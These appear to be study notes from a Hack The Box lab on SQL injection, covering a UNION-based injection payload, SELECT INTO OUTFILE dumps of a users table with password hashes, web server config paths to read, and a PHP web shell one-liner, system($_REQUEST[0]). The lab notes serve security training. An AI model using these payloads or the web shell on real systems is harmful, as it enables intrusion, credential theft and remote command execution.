 ```sql
SHOW VARIABLES LIKE 'secure_file_priv';

SELECT variable_name, variable_value FROM information_schema.global_variables
where variable_name="secure_file_priv"

'aaa' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables
where variable_name="secure_file_priv"-- 
```

`SELECT INTO OUTFILE`

- Statement to write query output into files
- Usually for exporting data from tables into files

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

```bash
happytilt@htb[/htb]$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

- We can also output text to a file

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

```bash
happytilt@htb[/htb]$ cat /tmp/test.txt 

this is a test
```

- File will be owned by the DB user
- Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data

Writing A Web Shell

- Figure out where web root directory is
    - `load_file()` to read web config files
    - `/etc/apache2/apache2.conf`
    - `/etc/nginx/nginx.conf`
    - `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`
    - search online for other possible configuration locations
    - https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt

PHP One-liner

```php
<?php system($_REQUEST[0]); ?>
```
